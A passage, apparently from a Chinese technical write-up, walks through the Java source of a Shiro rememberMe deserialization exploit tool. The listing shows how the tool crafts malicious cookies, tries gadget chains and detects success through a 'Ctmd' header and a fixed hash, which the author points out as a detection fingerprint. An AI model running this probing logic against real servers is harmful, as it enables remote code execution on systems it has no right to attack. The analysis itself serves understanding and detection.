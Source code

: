       22.         }
    
      23.         if (!flag) {
    
      24.             this.logTextArea.appendText(Utils.log("未找到构造链"));
    
      25.         }
    
      26.     }
    
    
    

`gadgetCrack`生成`remeberMe`的内容并加上`Ctmd`请求头，最后判断返回中是否包含`08fb41620aa4c498a1f2ef09bbc1183c`判断是否利用成功，这里也可以当作这款工具的特征。

    
          1. public boolean gadgetCrack(String gadgetOpt, String echoOpt, String spcShiroKey) {
    
      2.         boolean flag = false;
    
      3.         try {
    
      4.             //生成rememberMe
    
      5.             String rememberMe = this.GadgetPayload(gadgetOpt, echoOpt, spcShiroKey);
    
      6.             if (rememberMe != null) {
    
      7.                 HashMap header = new HashMap();
    
      8.                 header.put("Cookie", rememberMe + ";");
    
      9.                 //header中加入Ctmd头
    
      10.                 header.put("Ctmd", "08fb41620aa4c498a1f2ef09bbc1183c");
    
      11.                 String result = this.headerHttpRequest(header);
    
      12.                 //判断返回值中是否有08fb41620aa4c498a1f2ef09bbc1183c
    
      13.                 if (result.contains("08fb41620aa4c498a1f2ef09bbc1183c")) {
    
      14.                     this.mainController.logTextArea.appendText(Utils.log("[*] 发现构造链:" + gadgetOpt + "  回显方式: " + echoOpt));
    
      15.                     this.mainController.logTextArea.appendText(Utils.log("[*] 请尝试进行功能区利用。"));
    
      16.                     this.mainController.gadgetOpt.setValue(gadgetOpt);
    
      17.                     this.mainController.echoOpt.setValue(echoOpt);
    
      18.                     gadget = gadgetOpt;
    
      19.                     attackRememberMe = rememberMe;
    
      20.                     flag = true;
    
      21.                 } else {
    
      22.                     this.mainController.logTextArea.appendText(Utils.log("[x] 测试:" + gadgetOpt + "  回显方式: " + echoOpt));
    
      23.                 }
    
      24.             }
    